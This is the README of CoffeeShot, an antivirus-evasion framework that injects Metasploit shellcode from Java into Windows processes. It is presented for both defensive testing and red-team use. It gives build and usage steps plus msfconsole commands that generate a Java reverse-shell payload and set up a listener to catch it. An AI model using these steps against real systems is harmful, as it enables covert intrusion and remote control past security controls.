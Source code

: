 ![CoffeeShot](https://i.imgur.com/zH0Yvis.png)

# :coffee: CoffeeShot: Avoid Detection with Memory Injection :syringe:
[![Arsenal](https://github.com/toolswatch/badges/blob/master/arsenal/usa/2018.svg)](https://www.toolswatch.org/2018/05/black-hat-arsenal-usa-2018-the-w0w-lineup/)

CoffeeShot is an evasion framework that injects payload from Java-based programs into designated processes on Microsoft Windows.

CoffeeShot assists blue team members in assessing the effectiveness of their anti-malware measures against malicious software written in Java. Red team members and pen testers can also use CoffeeShot to bypass the target’s security controls. 

CoffeShot utilizes JNA (Java Native Access) to inject payload from Java-based programs into designated processes on Microsoft Windows.

The memory injection methods that CoffeeShot employs are straightforward and are well-known in the context of traditional, compiled executables. The effectiveness of these techniques at evading AV when they’re implemented in Java, highlights the brittle nature even by modern antivirus tools.

## Prerequisites:
* Eclipse (or any other IDE that supports Java)
* [Java Native Access](https://github.com/java-native-access/jna)
* Kali Linux with Metasploit

## Getting Started
1. Clone the project.
2. Import to Eclipse.
3. Add JNA and JNA-Platform libraries.
4. Insert your generated shellcode inside CoffeeShot project.
5. Build the Project.
6. Export to a runnable JAR file.

## Setup
### Add JNA and JNA-Platform libraries
- Start Eclipse
- In the project explorer, right-click on CoffeeShot folder, and select "Properties"
- Select "Java Build Path" on the left, and then the "Libraries" tab. Now, click the "Add External JARS..." button
- Locate and select "jna-4.5.0.jar" and "jna-platform-4.5.0.jar" files you downloaded from the [JNA](https://github.com/java-native-access/jna) github, and then click "Open"
- Finally, click "OK" to close the dialog box. You will know that everything went ok if, when you open your project folder, you see an item called "Referenced Libraries", and upon expanding this item, you see the packages "jna-4.5.0.jar" and "jna-platform-4.5.0.jar" listed.

## Build CoffeeShot with your shellCode
```
Copy our generated shellCode from Metasploit.
Paste\Insert the shellCode inside the CoffeeShot project, e.g.: "byte[] shellcode = {(byte) 0xfc, (byte) 0xe8...};"
Build the project
Export to runnable JAR
Execute CoffeeShot by:
> Java -jar CoffeeShot.jar [processName]
> processName example: notepad++.exe
```

## Demo
For demo purpose, we used Metasploit with shell reverse tcp

### Create a Java shellcode that is suitable for CoffeeShot
```
msfconsole
use payload/windows/shell_reverse_tcp
set LHOST x.x.x.x
set LPORT xxxx
generate -t java
```

### Create C2 for our shellcode
```
msfconsole
use exploit/multi/handler
set PAYLOAD windows/shell_reverse_tcp
set LHOST
set LPORT
set ExitOnSession false
exploit -j
sessions
sessions -i 1
```

[![CoffeeShot Demo](https://i.imgur.com/nT0ZYl5.png)](https://youtu.be/MVwkjWB-Nx4)

## References
[Minerva Labs Blog Post](https://blog.minerva-labs.com/coffeeshot-avoid-detection-with-memory-injection)

## Authors
* **Asaf Aprozper (3pun0x)** - *Creator* - [Twitter](https://twitter.com/3pun0x) - [GitHub](https://github.com/3pun0x) 

## License
This project is licensed under the GPLv3 License - see the [LICENSE.md](https://www.gnu.org/licenses/gpl.html) file for details
Copyright © 2018 Minerva Labs CoffeeShot.  All rights reserved.

This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, either version 3 of the License, or
at your option) any later version.

This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
GNU General Public License for more details.
